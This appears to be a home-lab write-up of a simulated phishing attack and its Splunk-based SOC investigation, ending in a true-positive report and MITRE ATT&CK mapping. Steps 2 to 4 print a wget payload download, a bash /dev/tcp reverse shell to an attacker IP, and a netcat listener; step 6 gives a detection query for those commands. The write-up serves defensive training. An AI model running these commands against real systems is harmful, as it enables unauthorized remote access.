






### 1. Phishing Server Setup (Kali)

A PHP development server was started to host the payload file.

**Add Screenshot 1 Here**



**Observation:**

- Multiple HTTP GET requests observed
- Victim IP: `192.168.1.66`
- Resource accessed: `/payload.sh`

---

### 2. Payload Download (Victim - Ubuntu)

The victim system downloaded the payload from the attacker server.

```bash
wget http://192.168.1.64/payload.sh
```



**Observation:**

- HTTP response: `200 OK`
- File successfully saved as `payload.sh`

---

### 3. Payload Execution (Victim)

The payload was executed manually on the victim system.

```bash
bash -i >& /dev/tcp/192.168.1.64/4444 0>&1
```



---

### 4. Reverse Shell Connection (Attacker)

The attacker machine was listening on port `4444` using Netcat.
A connection was successfully established from the victim.

```bash
nc -lvnp 4444
```



**Observation:**

- Connection received from victim IP `192.168.1.66`
- Attacker gained shell access
- Command execution confirmed via `whoami`

---

## Splunk Investigation

### 5. Attacker IP Identification

Splunk was used to extract IP addresses from audit logs.

```spl
index=* source="/var/log/audit/audit.log"
| rex "addr=(?<ip>\d+\.\d+\.\d+\.\d+)"
| stats count by ip
```



**Observation:**

- Attacker IP identified: `192.168.1.64`
- High event count indicates repeated interaction

---

### 6. Command Analysis from Audit Logs

Commands executed on the victim system were reconstructed using Splunk.

```spl
index=* source="/var/log/audit/audit.log"
| rex "a0=\"(?<cmd1>[^\"]+)\""
| rex "a1=\"(?<cmd2>[^\"]+)\""
| rex "a2=\"(?<cmd3>[^\"]+)\""
| eval command=cmd1." ".cmd2." ".cmd3
| search command="*bash*" OR command="*wget*" OR command="*tcp*"
| table _time host command
```



**Observation:**

- Bash execution detected
- System commands related to process execution observed

---

## Evidence of Compromise

- Payload downloaded from attacker server
- Reverse shell executed using bash
- Outbound connection to attacker IP: `192.168.1.64`
- Successful remote shell access established

---

## Incident Classification

**Classification: TRUE POSITIVE**

---

## True Positive Report

**Time of Activity:** Refer to Splunk logs

**Affected System:** Ubuntu (victim)

**Attacker IP:** `192.168.1.64`

**Reason for Classification:**

- Verified payload execution
- Reverse shell established
- Confirmed communication with attacker system

**Reason for Escalation:**

- Unauthorized remote access
- System compromise

**Recommended Actions:**

- Isolate affected system
- Block attacker IP
- Reset credentials
- Monitor for further suspicious activity

---

## MITRE ATT&CK Mapping

| Technique              | ID     |
|------------------------|--------|
| Command Execution      | T1059  |
| Ingress Tool Transfer  | T1105  |
| Command and Control    | T1071  |
